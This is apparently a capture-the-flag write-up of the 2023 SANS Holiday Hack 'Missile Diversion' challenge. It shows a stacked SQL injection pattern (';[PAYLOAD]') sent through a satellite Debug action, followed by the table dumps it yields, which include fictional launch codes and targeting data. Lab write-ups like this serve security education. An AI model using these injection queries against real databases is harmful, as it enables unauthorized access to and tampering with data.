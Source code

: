 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Missile Diversion
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Thwart Jack's evil plan by re-aiming his missile at the Sun.

### Solution
Re-utilizing the same environment from before, I used the `Consumer Test Tool` to connect to `maltcp://10.1.1.1:1024/nanosat-mo-supervisor-Directory`, start the `missile-targeting-system`, and then connecting to `maltcp://10.1.1.1:1026/missile-targeting-system-Directory`. This exposes the `Debug` Action Service along with 4 Parameter Services: `PointingMode`, returning the current pointing mode, `X` and `Y`, returning the coordinates, and `Debug`, returning the last output from the `Debug` Action Service. Trying to set `X`, `Y` and `PointingMode` was not giving any result. I then tried submitting the `Debug` Action without any input and the `Debug` Parameter Service returned the string `VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204`, clearly identifying the interaction with a DB. I tested the action service for common SQL injection by using the attribute value to inject the payload, eventually finding `;[PAYLOAD]` as a resilient injection pattern. I then enumerated the tables in the database and their content

> **Query**: `; SELECT * FROM pointing_mode_to_str`  
> id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth.  
> id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. \|
#### **Query**: `; SELECT * FROM user_variables`
java.sql.SQLSyntaxErrorException: (conn-3488) SELECT command denied to user 'targeter @'172.18.0.4' for table missile_targeting system. 'user_variables
#### **Query**: `; SELECT * FROM messaging`
id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \|  
id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \| 11.2.2-MariaDB-1:11.2.2+maria-ubu2204 \|  
id: 3 \| msg_type: LaunchCode \| msg_data: DLG2209TVX \|  
id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED \|  
id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED \|  
id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \|  
id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \|  
id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \|  
id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \|  
#### **Query**: `; SELECT * FROM pointing_mode`
id: 1 \| numerical_mode: 0 \|  
#### **Query**: `; SELECT * FROM target_coordinates`
id: 1 lat: 1.14514 \| Ing: -145.262 \|  
#### **Query**: `; SELECT * FROM satellite_query`
VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204 | 
jid: 1 | object: `........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java` | results: `import java.io.Serializable; /* Output removed to shorten report */ public class SatelliteQueryFileFolderUtility implements Serializable { /* Output removed to shorten report */`